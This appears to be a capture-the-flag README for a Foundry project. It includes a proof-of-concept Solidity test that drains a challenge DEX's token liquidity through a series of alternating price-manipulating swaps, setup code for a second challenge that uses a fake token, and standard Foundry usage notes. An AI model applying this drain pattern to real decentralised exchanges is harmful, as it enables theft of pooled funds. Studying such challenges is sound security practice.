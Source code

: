 # PoC Dex
## Overview:
An attacker can exploit the Dex contract by performing a series of swaps to drain the liquidity of one of the tokens, token1 or token2. 

## Actors:
### Attacker - The attacker make some series of swaps to the DEX to drain the liquidity
### Protocol - The protocol is a DEX that allows two different types of token to be swapped.

### Test Case:

```
function test_multiple_swaps() public {
        vm.startPrank(attacker);
        token1.approve(address(dex), 100);
        token2.approve(address(dex), 100);

        uint256 token1Expected = token1.balanceOf(address(dex));
        dex.swap(address(token1), address(token2), 10);
        dex.swap(address(token2), address(token1), 20);
        dex.swap(address(token1), address(token2), 24);
        dex.swap(address(token2), address(token1), 30);
        dex.swap(address(token1), address(token2), 41);
        dex.swap(address(token2), address(token1), 45);

        uint256 token1Balance = token1.balanceOf(attacker);
        uint256 token1ExpectedAfter = token1.balanceOf(address(dex));

        assert(token1Balance == token1Expected + 10);
        assertEq(token1ExpectedAfter, 0);
    }
```

# PoC DexTow
## Overview:
An attacker can exploit the Dex contract by performing a series of swaps to drain the liquidity of the two token, token1 & token2. 

## Actors:
### Attacker - The attacker make some series of swaps to the DEX to drain the liquidity of the two tokens
### Protocol - The protocol is a DEX that allows two different types of token to be swapped.

### Test Case:

```
function setUp() public {
        vm.startPrank(owner);
        dex = new DexTwo(owner);

        token1 = new SwappableTokenTwo(address(dex), "Token1", "TK1", 110);
        token2 = new SwappableTokenTwo(address(dex), "Token2", "TK2", 110);

        dex.setTokens(address(token1), address(token2));
        console.log("Owner Token1 Balance before transfer:", token1.balanceOf(owner));

        token1.approve(address(dex), 100);
        token2.approve(address(dex), 100);

        dex.add_liquidity(address(token1), 100);
        dex.add_liquidity(address(token2), 100);
        console.log("Owner Token1 Balance After transfer:", token1.balanceOf(owner));

        // Deploy FakeToken
        fakeToken = new FakeToken(owner, "fakeToken", "MTK", 500);
        fakeToken.transfer(attacker, 400);
    }

```

## Foundry

**Foundry is a blazing fast, portable and modular toolkit for Ethereum application development written in Rust.**

Foundry consists of:

-   **Forge**: Ethereum testing framework (like Truffle, Hardhat and DappTools).
-   **Cast**: Swiss army knife for interacting with EVM smart contracts, sending transactions and getting chain data.
-   **Anvil**: Local Ethereum node, akin to Ganache, Hardhat Network.
-   **Chisel**: Fast, utilitarian, and verbose solidity REPL.

## Documentation

https://book.getfoundry.sh/

## Usage

### Build

```shell
$ forge build
```

### Test

```shell
$ forge test
```

### Format

```shell
$ forge fmt
```

### Gas Snapshots

```shell
$ forge snapshot
```

### Anvil

```shell
$ anvil
```

### Deploy

```shell
$ forge script script/Counter.s.sol:CounterScript --rpc-url <your_rpc_url> --private-key <your_private_key>
```

### Cast

```shell
$ cast <subcommand>
```

### Help

```shell
$ forge --help
$ anvil --help
$ cast --help
```
